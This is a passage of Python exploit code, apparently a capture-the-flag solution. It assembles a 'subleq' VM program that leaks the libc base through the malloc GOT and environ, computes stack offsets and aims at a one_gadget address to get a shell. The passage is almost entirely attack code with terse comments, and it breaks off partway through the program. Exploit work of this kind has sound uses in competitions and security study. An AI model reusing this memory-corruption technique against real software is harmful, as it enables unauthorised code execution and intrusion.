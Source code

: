 ```
#send_str("a"*(12+1+27+1+18+1))

cur_ip = 16
def subleq(a, b, target=None):
    global cur_ip
    cur_ip += 3
    if target:
        return [a, b, target]
    else:
        return [a, b, cur_ip]

def to_data(idx):
    return 19+idx

# data:
# stack offset
# r shift amount
# overflow base
# 1
# one_gadget
one_gadget = [0x50a37, 0xebcf1, 0xebcf5, 0xebcf8][2]

data = [1, libc.symbols['malloc'], 0x148 - (0x84000 - 0x10), 1<<56, 52, -1*one_gadget]
print(data)
shellcode = subleq(0, 0, cur_ip + 3 + len(data))
cur_ip+=len(data)
# data
shellcode+= data
shellcode+= subleq(1, 1)
shellcode+= subleq(to_data(0), 1) # get -1
shellcode+= subleq(2, 2)
shellcode+= subleq(3, 3)
shellcode+= subleq(4, 4)
libc_malloc = libc.got['malloc'] + 0x84000 - 0x10 # libc_offset + mmap size - heap chunk header
shellcode+= subleq(libc_malloc//8, 2)
shellcode+= subleq(2, 3)
shellcode+= subleq(to_data(1), 3) # libc base
libc_environ = libc.symbols['environ'] + 0x84000 - 0x10 # libc_offset + mmap size - heap chunk header
shellcode+= subleq(2, 2)
shellcode+= subleq(libc_environ//8, 2)
shellcode+= subleq(2, 4)
shellcode+= subleq(3, 4) # subtract libc_base
shellcode+= subleq(to_data(2), 4) # subtract offset from libc_base & from environ
shellcode+= subleq(2, 2)
shellcode+= subleq(5, 5)
shellcode+= subleq(4, 2)
shellcode+= subleq(2, 5)
shellcode+= subleq(7, 7) # counter
shellcode+= subleq(2, 2)
# divide by 8
#
div_label = cur_ip
shellcode+= subleq(2, 2)
shellcode+= subleq(2, 2)
shellcode+= subleq(5, 2)
shellcode+= subleq(5, 2) # [3]->-2n
shellcode+= subleq(5, 5)
shellcode+= subleq(2, 5) # [5]->2n

shellcode+= subleq(6, 6)
shellcode+= subleq(2, 6) # [6]->2n
shellcode+= subleq(to_data(3), 6, cur_ip+12) #[if 1<<56 < [6]] continue
```